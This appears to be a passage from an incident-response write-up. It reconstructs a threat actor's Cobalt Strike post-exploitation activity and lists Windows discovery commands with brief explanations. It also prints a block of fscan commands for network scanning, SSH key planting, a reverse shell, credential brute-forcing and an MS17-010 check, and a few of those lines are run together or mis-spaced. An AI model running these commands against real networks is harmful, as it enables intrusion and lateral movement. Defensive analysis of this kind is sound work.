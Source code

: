 The reporting features exposed all payloads injected using process hollowing. 

# Cobalt Strike Post-Exploitation

This threat actor appeared to use Cobalt Strike for persistence, privilege escalation, defence evasion, lateral movement and information harvesting. From Cobalt Strike logs, we were able to ascertain commands run and tooling executed by the threat actor: 

## Misc

```
C:\ProgramData\mdm.txt
C:\ProgramData\1.txt
C:\ProgramData\GetCLSID.ps1
```

Likely staging files. GetCLSID.ps1 could be a script for enumerating COM CLSIDs or checking for hijack opportunities.

## Discovery

`net user` - lists all user accounts

`systeminfo` - Displays OS version, build, hotfixes, domain info, uptime

`ipconfig /all` - Displays network config, IPs, etc

`netstat -ano | findstr :3389` - Looking for port 3389 (RDP)

`sc query TermService` - Checks status of Remote Desktop Services.

`%windir%/system32/inetsrv/appcmd list sites` - Lists all IIS websites configured on the host.

`for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="q` - Ping sweep across 192.168.1.1 → 192.168.1.254 for live hosts.

`schtasks /query /tn "MaintainRDP"`

* Queries the scheduled task MaintainRDP (a persistence mechanism).

`reg query "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections`

* Checks if RDP connections are allowed (0 = allowed, 1 = denied).

`reg query "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber`

* Reads the configured RDP port (default 3389).


`netsh advfirewall firewall show rule name=all | findstr "443" `

* Looks for firewall rules mentioning port 443 (commonly abused to hide RDP or tunnels).

```bash
fscan.exe -h 192.168.1.1/24 -np -no -nopoc 
fscan.exe -h 192.168.1.1/24 - rf id_rsa.pub 
fscan.exe -h 192.168.1.1/24 - rs 192.168.1.1:6666 
fscan.exe -h 192.168.1.1/24 -c whoami fscan.exe - h 192.168.1.1/24 -m ssh -p 2222 
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt 
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt 
fscan.exe -h 192.168.1.1/8 
fscan.exe -h 192.168.1.1/24 -m smb -pwd password 
fscan.exe -h 192.168.1.1/24 -m ms17010 fscan.exe -hf ip.txt (# ####) 
fscan.exe -u http://baidu.com -proxy 8080 
fscan.exe -h 192.168.1.1/24 -nobr -nopoc 
fscan.exe -h 192.168.1.1/24 -pa 3389
```
